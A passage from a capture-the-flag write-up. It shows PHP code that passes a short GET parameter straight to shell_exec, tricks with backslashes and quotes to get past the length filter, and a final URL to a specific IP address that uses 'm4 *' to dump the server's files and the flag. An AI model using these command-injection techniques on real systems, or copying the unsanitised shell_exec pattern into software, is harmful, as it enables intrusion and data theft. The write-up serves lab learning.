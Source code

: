 ``` CTF{66bf8ba5c3ee2bd230f5cc2de57c1f09f471de8833eae3ff7566da21eb141eb7} ```

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps.

if (strlen($_GET['start']) < 5){

  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}

?>
```

So we cannot bypass the 4 chars for the input, so I looked for 2 chars commands and fount [this page](https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt).

We can bypass the filter with \\ or '', but we ran out of characters for the wildcard input:

```
l\\s
# flag.php, index.php
l''s
# flag.php, index.php
```

I tried different commands from the list, first I went for od (dump files in octal and other formats) but couldn't revert the result:

```
037474 064160 005160 022011 066146 063541 036440 021040
064164 071551 071551 064164 063145 060554 021147 005012
037077
```

Then, it turned out that was m4 command (macro processor). We can use it with the wildcard to dump all the files content, the flag included:

http://34.159.129.6:32136/?start=m4%20*

<p align="center">